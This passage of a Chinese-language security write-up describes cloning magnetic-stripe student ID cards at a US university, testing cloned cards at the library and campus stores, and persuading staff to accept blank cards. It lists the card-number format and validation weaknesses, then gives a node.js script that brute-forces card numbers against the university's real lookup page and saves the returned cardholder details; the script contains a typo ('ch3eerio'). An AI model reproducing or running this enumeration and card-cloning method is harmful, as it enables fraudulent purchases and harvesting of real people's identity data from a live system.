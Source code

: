 首先，我们让团队的老三办理了一张新卡（学校官方发的）去图书馆使用，结果那里的管理员说这个ID不在系统中，如果的卡是新办的，那么一般需要几天时间来等待服务器的同步。从这个行动中我们了解到学校图书馆每次在使用ID卡时并不是实时和服务器进行验证，而是每隔几天从服务器同步新的内容保存在本地使用。

接下来，我们又派团队的老皮拿着复制卡在校园里到处铺张浪费，大家可以翻墙看我们录制的演示视频：http://youtu.be/Bw2Ugezb7Fs

![enter image description here](http://drops.javaweb.org/uploads/images/51fdecb67a57b3bca96c1c572a3abf774b0d5d8c.jpg)

以上的测试中我们得到几点经验：

虽然复制卡看起来比较奇怪，但是在我们帅气的队友色诱下，工作人员还是接受了白卡。 复制卡的持卡人姓名修改后，消费时的单据上看到的依然是源卡持卡人姓名，这就说明在校园销售系统中，消费时数据与服务器实时核验，确保ID卡的有效性。但是持卡人姓名并没有做检测。

0x06 整装待发
=========

* * *

有了上面的试验和经验，我们再次总结一下现在掌握的信息：

该校所有的老师和学生都有这种ID卡 所有卡的前八位都是60383800 所有卡的第九第十位只有三种：05、06、11 有大约300万种可能的卡号 有一个现成的网站可以查询ID卡号的有效性，这个站可能会记录我们的IP 所有卡的过期时间一致，都是49/12 所有卡的自由数据部门都是空的（0填充） Unitec的MSRC206可以读取、编辑和重新编码磁条 图书馆验证ID卡时并不是实时连接服务器的 白卡（复制卡）拿去消费也是会被工作人员接受的 销售系统是与服务器实时通信验证的 销售系统不进行持卡人身份验证

0x07 扩大战果
=========

* * *

现在所掌握的信息已经足够我们进行大规模行动了。

首先，我们写了个基于node.js的网络小脚本，不用说你也猜到了，我们将对校园里的有效卡号进行爆破！

代码：

```
var cheerio = require('cheerio'), 
request = require('request'), 
fs = require('fs'), 
headnumber = '06';

for (var i=1; i <= 100; i += 1){
    var tailnumber = '';
    while (tailnumber.length < 6) 
    tailnumber = tailnumber + '' + [0,1,2,3,4,5,6,7,8,9][Math.floor(Math.random()*9)];
    request.post('https://app.it.okstate.edu/idcard/index.php/module/Default/action/IDCardEntry', {form:{card_id:'60383800'+headnumber+tailnumber}}, function (error, response, html) {
        if (!error && response.statusCode == 200) {
            var $ = ch3eerio.load(html);
            $('td.formText').each(function() {
                var text = $(this).next().text();
                fs.appendFile('osu_ids.txt', text+';', function(err){});
            });
            fs.appendFile('osu_ids.txt', '\r\n', function(err){});
        }
    }); 
}

```
